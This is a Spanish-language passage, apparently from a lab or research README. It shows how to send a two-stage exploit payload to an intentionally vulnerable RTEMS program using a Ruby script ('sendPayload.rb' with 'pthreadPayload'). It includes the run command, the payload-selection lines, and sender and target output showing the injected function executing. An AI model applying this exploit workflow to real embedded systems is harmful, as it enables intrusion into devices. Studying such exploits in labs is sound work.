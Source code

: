 De no fallar se envia el *payload* con el comando:

```bash
sudo ruby sendPayload.rb
```

En este caso se dejó seleccionado el ejemplo `pthreadPayload.rb` dentro del archivo `sendPayload.rb`, en las primeras líneas:

``` {.sourceCode .ruby}
# Seleccionar uno de los payloads y comentar el resto

require_relative "pthreadPaylaod"
# require_relative "evt_irq_corruption"
```

Mostrará la salida:

```bash
Enviando etapa-0
Enviado
Enviando etapa-1
Enviado
Presionar Enter para enviar RPC
```

Indicando que se enviaron las dos etapas del payload del ejemplo. El programa de RTEMS monitoreado por `listen.rb`, de recibir correctamente los datos mostrará la salida:

```bash
*** START VULN ***
LEYO EL PREAMBULO!!
Leyo el len: 56
Se leyeron todos los datos: 56 bytes
LEYO EL PREAMBULO!!
Leyo el len: 476
Byte 100/476
Byte 200/476
Byte 300/476
Byte 400/476


*** END VULN ***
mainThread!
Preparado para ejecutar funcion.
mainThread!
mainThread!
mainThread!
mainThread!
LEYO EL PREAMBULO!!
Leyo el len: 20
Preparado para ejecutar funcion.
mainThread!
mainThread!
mainThread!
LEYO EL PREAMBULO!!
Leyo el len: 20
mainThread!
Preparado para ejecutar funcion.
mainThread!
mainThread!
```
